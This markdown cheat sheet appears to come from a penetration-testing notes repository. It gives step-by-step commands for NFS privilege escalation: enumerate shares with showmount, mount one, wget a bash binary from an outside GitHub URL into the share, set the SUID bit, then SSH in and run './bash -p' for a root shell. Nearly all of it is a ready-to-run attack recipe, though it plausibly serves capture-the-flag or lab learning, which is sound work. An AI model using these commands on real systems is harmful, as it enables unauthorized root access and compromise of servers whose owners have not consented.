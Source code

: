 # NFS
NFS stands for "Network File System" and allows a system to share directories and files with others over a network. By using NFS, users and programs can access files on remote systems almost as if they were local files. It does this by mounting all, or a portion of a file system on a server. The portion of the file system that is mounted can be accessed by clients with whatever privileges are assigned to each file.

## Workflow
1. Port scan with nmap
2. Enumerate accessible shares
3. Create a mount point
4. Mount the NFS share to the mount point
5. [Download](https://github.com/polo-sec/writing/blob/master/Security%20Challenge%20Walkthroughs/Networks%202/bash) or make a bash executable (The file must be owned by root)
6. Add the SUID bit and execution permission to the bash executable
7. SSH into the remote host (if SSH private key is found in the share)
8. Run the executable on the remote host

## Advance preparation
```
export rhost=[RHOST IP]
```

## Enumeration (with NFS-Common)
### NFS-Common
NFS-Common includes programs such as: lockd, statd, showmount, nfsstat, gssd, idmapd and mount.nfs.

### Listing NFS Shares
```
showmount -e $rhost  
```

## Exploitation
### Create a mount point
```
mkdir /tmp/mount
```

### Mounting NFS shares
```
sudo mount -t nfs ${rhost}:[SHARE] /tmp/mount -nolock
```

- -t : Type of device to mount
- ${rhost} : The IP Address of the NFS server
- SHARE	: The name of a share in the remote host
- /tmp/mount: The local directory to mount a share to
- -nolock	: Specifies not to use NLM locking

### Download or make a bash executable
```
sudo wget https://github.com/polo-sec/writing/blob/master/Security%20Challenge%20Walkthroughs/Networks%202/bash?raw=true -O /tmp/mount/bash
```

### Add the SUID bit and execution permission
```
cd /tmp/mount && sudo chmod +xs bash
```

### SSH into the remote host
```
ssh -i [PRIVATE KEY] [USERNAME]@${rhost}
```

### Run the bash executable (with p persisting permission)
```
./bash -p
```
